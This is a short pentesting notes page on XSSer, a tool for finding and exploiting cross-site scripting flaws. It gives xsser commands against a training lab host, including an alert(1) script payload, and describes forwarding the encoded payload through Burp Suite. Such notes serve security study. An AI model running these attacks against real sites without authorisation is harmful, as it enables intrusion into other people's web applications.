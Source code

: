 ```yaml
---
title: XSSer -  An automated Web Pentesting Framework Tool to Detect and Exploit XSS vulnerabilities
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, web pentesting
---
```


# XSSer - An automated Web Pentesting Framework Tool to Detect and Exploit XSS vulnerabilities

A Cross Site Scripter (or XSSer) is an automatic framework to detect, exploit and report XSS vulnerabilities in web-based applications.

## Installation

```bash
sudo apt install xsser
```

## Usage 

The following commands are used in combination with BurpSuite:

```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto

xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```

With this, the encoded XSS payload is generated. Now, in Burp Suite, replace the POST parameters with the final attack payload and forward the request.

